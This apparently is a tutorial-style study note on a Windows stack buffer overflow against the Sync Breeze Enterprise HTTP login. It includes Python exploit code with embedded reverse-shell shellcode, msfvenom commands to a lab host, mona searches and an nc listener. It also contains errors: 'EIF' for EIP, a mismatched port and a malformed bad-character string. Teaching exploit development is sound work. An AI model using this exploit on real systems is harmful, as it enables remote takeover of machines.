 # WBO-Windows Buffer Overflows

## Ultimate Goal

Getting a reverse shell (control over target machine's shell) without crashing the target application.

Target Application in this example, 'Sync Breeze Enterprise' service in windows.

1. Fuzzing the HTTP Protocol

   Test with different lengths of buffers to test if an application would fail (crash)

   e.g. Send 800 'A' as the username with http to the target. 

   Use Immunity Debugger to track the target application status (if it crashes)

   Observe that EIF register is occupied by some buffer.

2. Controlling EIF

   Determine which bytes occupies the EIF register.

   Use Metasploit to create some unique 4-byte strings

   `msf-pattern_create -l 800`: create 800 unique 4-byte strings

   When app crashes, see what value is in EIF, say '42306142'

   `msf-pattern_offset -l 800 -q 42306142` to find offset  of the 4 bytes that occupy EIF, say it's 780

   ```python
   #!/bin/python
   # ...
   filler = "A" * 780
   eip = "B" * 4
   buffer = "C" * 16
   inputBuffer = filler + eip + buffer
   # ...
   ```

   We get 42424242 in EIF, which is BBBB in ASCII . (42 in Hex is 66 in ASCII and represents 'B' in ASCII ) [Ascci Table](https://ascii.cl/)

   Now we have control over EIF (Address of next instruction to execute)

3. Locating Space for our shell code

   We can control EIF and don't know what address to use. We will do this later, we now focus on reverse shell code (what we will pass in buffer and use to run reverse shell).

   We found that ESP is filled with "CCCC...", which is our buffer.

   Reverse shell payload need approx. 350-400 bytes of space.

   Solution: increase buffer length

   ```python
   filler = "A" * 780
   eip = "B" * 4
   offset = "C" * 4
   buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
   inputBuffer = filler + eip + offset + buffer
   ```

   Now we have more space for shell code.

4. Check for bad characters

   Depending on application, vulnerablilty type, protocol used, some chars cannot be used, such as string null terminator 0x00. Could cause `strcpy` command to stop early and truncate our buffer. Also for http protocol, should avoid return character 0x0D, stands for end of http field (username).

   Always check for bad characters, send all possible character from 0x00 - 0xFF.

   ```python
   #!/usr/bin/python 
   import socket 
    
   badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 
    
   try:   
       print "\nSending evil buffer..."      
       filler = "A" * 780   
       eip = "B" * 4   
       offset = "C" * 4 
    
     	inputBuffer = filler + eip + offset + badchars      
       content = "username=" + inputBuffer + "&password=A" 
   # ...
   ```

   In Immunity Debugger, right click on ESP address "Follow in Dump" to view the content at that address when app crashes to see if the buffer at that location is expected. If 0x00 - 0xFF isn't complete and continuous in that location, the char that stops the continuity is a bad char, take note of it and remove it. Then keep testing until all bad chars are found.

   Bad Chars: 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D 

5. Redirecting The Execution Follow

   Replace the eip var in python code with ESP's value at the time of the crash.

   Value of ESP changes regularly. Hard coding wouldn't work.

6. Find a Return Address

   Solution for previous problem: `JMP ESP`

   Find a reliable **static** address that contains `JMP ESP` instruction, at the time of crash, point EIP to this location.

   This `JMP ESP` could be in another app, it just has to be static (the address of this location cannot contain any of the bad chars)

   Use Immunity Debugger `!mona modules` to check all ddl or modules loaded by target app to the memory space.

   From the flags in this output, we need to find some modules with SafeSEH319 (Structured Exception Handler Overwrite, an exploit-preventative memory protection technique), ASLR, and NXCompat (DEP protection) disabled. In other words, the executable has not been compiled with any memory protection schemes, and will always reliably load at the same address, making it ideal for our purposes. 

   Note: the address cannot contain bad chars as well.

   Need to find `JMP ESP` in target modules.

   Use msf to translate the hex-representation or opt code of `JMP ESP`

   ```bash
   msf-nasm_shell
   > jmp esp
   # get FFE4
   ```

   Search in Immunity Debugger, `!mona find -s "\xff\xe4" -m "module_name.dll"`

   The address of `JMP ESP` cannot contain bad chars.

   Use this address for EIP register, address is in reverse order since many systems use little endian byte order.

   Little Endian: low order byte number stored in memory at lowest address, high order at highest address, thus have to use reverse order.

7. Generating Shell code with metasploit

   LHOST: destination ip of shell

   LPORT: connect back port

   -f c: c formated shell code

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=433 -f c
   ```

   There could be bad char in generated shell code.

   Encode shell code to avoid bad chars.

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x 86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
   ```

8. Getting a shell

   Put the shell code in place of the buffer.

   Another problem: due to the encoding, the shell code is prepended by decoder. Some data like return address and offset are overwritten by the decoder. 

   Solution: create wide landing pad with `0x90`, no operation, do nothing, pass execution to the next instruction.

   Add 10 nops (`\x90`) before the shell code buffer

   ```python
   shellcode = ("\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"   "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"   "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59"   "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48"   "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f"   "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6"   "\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xa4"   "\x55\xa5\x87\x08\xa4\xb7\xc0\xaf\x57\xc2\x38\xcc\xea\xd5\xff"   "\xae\x30\x53\x1b\x08\xb2\xc3\xc7\xa8\x17\x95\x8c\xa7\xdc\xd1"   "\xca\xab\xe3\x36\x61\xd7\x68\xb9\xa5\x51\x2a\x9e\x61\x39\xe8"   "\xbf\x30\xe7\x5f\xbf\x22\x48\x3f\x65\x29\x65\x54\x14\x70\xe2"   "\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62"   "\x8e\xc9\xf4\xfc\x71\xf2\x04\xd5\xb5\xa6\x54\x4d\x1f\xc7\x3e"   "\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\xc7\xe0\xe2"   "\x5a\xe8\x2a\x8b\xf1\x13\xbd\xbe\x0e\x1b\x2f\xd7\x12\x1b\x4e"   "\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\x2c\x42\x73\x4d\x49"   "\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x70"   "\xb6\x30\x95\x1f\x46\x3e\x86\xb7\x11\x17\x78\xce\xf7\x85\x23"   "\x78\xe5\x57\xb5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3e\x9f"   "\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x44\x42\xbe\xe3\x3b\x0c\x56"   "\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc8"   "\x8c\x18\x7d\x36\x47\x99\x8d\x7d\xc5\x88\x05\xd8\x9c\x88\x4b"   "\xdb\x4b\xce\x75\x58\x79\xaf\x81\x40\x08\xaa\xce\xc6\xe1\xc6"   
   "\x5f\xa3\x05\x74\x5f\xe6") 
    
   filler = "A" * 780   
   eip = "\x83\x0c\x09\x10"   
   offset = "C" * 4   
   nops = "\x90" * 10 
    
   inputBuffer = filler + eip + offset + nops + shellcode      
   content = "username=" + inputBuffer + "&password=A" 
    
   buffer = "POST /login HTTP/1.1\r\n"   
   buffer += "Host: 10.11.0.22\r\n"  
   buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefo x/52.0\r\n" 
   ```

   run `sudo nc -lnvp 443` to listen on port 443 for the reverse shell to connect.

9. Improve The Exploit (Prevent App from crashing)

   App crashing could prevent testers from testing  after exiting.

   If the service is a threaded application, try avoid crash with ExitThread API instead of ExitProcess API.

   Service won't be bring down.

   `EXITFUNC= thread`

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC= thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d" 
   ```

   Replace the shell code with the output of this command.

   It will prevent the service from crashing.

   







